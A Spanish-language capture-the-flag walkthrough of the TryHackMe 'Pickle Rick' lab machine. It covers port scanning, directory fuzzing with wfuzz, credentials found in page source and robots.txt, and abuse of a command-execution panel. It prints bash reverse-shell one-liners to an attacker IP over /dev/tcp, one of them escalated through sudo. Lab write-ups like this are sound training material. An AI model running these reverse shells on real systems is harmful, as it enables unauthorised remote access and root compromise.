 ```yaml
---
title : Máquina|Pickle Rick|THM
published : True
---
```



<div class="contenedor imgc">
    <img class="imgc" src="imgs/pickleRick/pickleRick.jpg" style="width: 169px" alt="Cheese logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Fácil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/room/picklerick" style="color: lightblue;">PickleRick</a></p>
    </div>
</div>

>

<h2><font color="white"><center># Pickle Rick</center></font></h2>
* <p>Empezaremos viendo a que sistema operativo nos enfrentamos.</p>
>
<img src="/imgs/pickleRick/pickleRick1.jpg"/>
* <p> Vemos que el ttl es de 63 lo cual hace referencia a una maquina Linux, ahora veremos que puertos están abiertos.</p>
>
<img src="/imgs/pickleRick/pickleRick2.jpg"/>
* <p>Puerto 22/ssh y 80/http , ya intente conectarme por ssh pero me arroja permiso denyed, mirando el código del html de el puerto 80, me topo que en el código hay un usuario : <font color="yellow">R1ckRul3s</font></p>
>
<img src="/imgs/pickleRick/pickleRick3.jpg"/>
* <p>Ahora lo que haré sera enumerar directorios activos en la pagina web, con la herramienta <font color="gold">wfuzz</font></p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.181.144/FUZZ
>
<img src="/imgs/pickleRick/pickleRick4.jpg"/>
* <p>Vemos que directamente hay un robots.txt el cual al verlo en la pagnia web parece un tipo de contra.</p>
>
<img src="/imgs/pickleRick/pickleRick5.jpg"/>
* <p>Posterior mente me doy cuenta que existe un login.php</p>
>
<img src="/imgs/pickleRick/pickleRick6.jpg"/>
* <p>El cual con el usuario anterior encontrado y la contra me lleva a un panel con ejecución remota de comandos</p>
>/bin/bash -c  "bash -i >& /dev/tcp/10.18.27.215/444 0>&1"
>
<img src="/imgs/pickleRick/pickleRick7.jpg"/>
* <p>Lo cual me aprovecho de la ejecución remota de comando para hacerme una web Shell </p>
>
<img src="/imgs/pickleRick/pickleRick8.jpg"/>
* <p>Posteriormente me doy cuenta que el usuario www-data puede ejecutar cualquier comando</p>
> sudo -l
>
<img src="/imgs/pickleRick/pickleRick9.jpg"/>
* <p>Entonces me hago una reverse Shell con el sudo</p>
> sudo /bin/bash -c "bash -i >& /dev/tcp/10.18.27.215/445 0>&1"
>
<img src="/imgs/pickleRick/pickleRick10.jpg"/>

